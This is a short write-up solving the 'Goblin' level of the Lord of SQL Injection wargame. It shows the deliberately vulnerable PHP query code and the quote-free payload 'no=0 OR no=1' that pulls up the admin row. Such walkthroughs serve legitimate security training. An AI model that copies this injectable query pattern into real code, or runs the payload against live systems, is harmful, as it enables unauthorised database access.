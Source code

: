 ```yaml
---
title: "Lord of SQL Injection: Goblin"
pubDate: "2023-11-17"
description: "Solution for 'Goblin'"
tags: ['SQL Injection']
---
```


# {frontmatter.title}

Here is the challenge:

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

One of the rule is to not use quotes. At first, I thought I have to do UNION or something like that, but after a few tries, I gave up because I can't find a way to do UNION attack without quotes.

So I just tried some random input, and when I tried `no=1`, I got

```
Hello guest
```

So I know that `no` is a number, and I need to somehow get `admin`'s `no`. I then try

```
no=0 OR no=1
```

And get

```
Hello admin
GOBLIN Clear!
```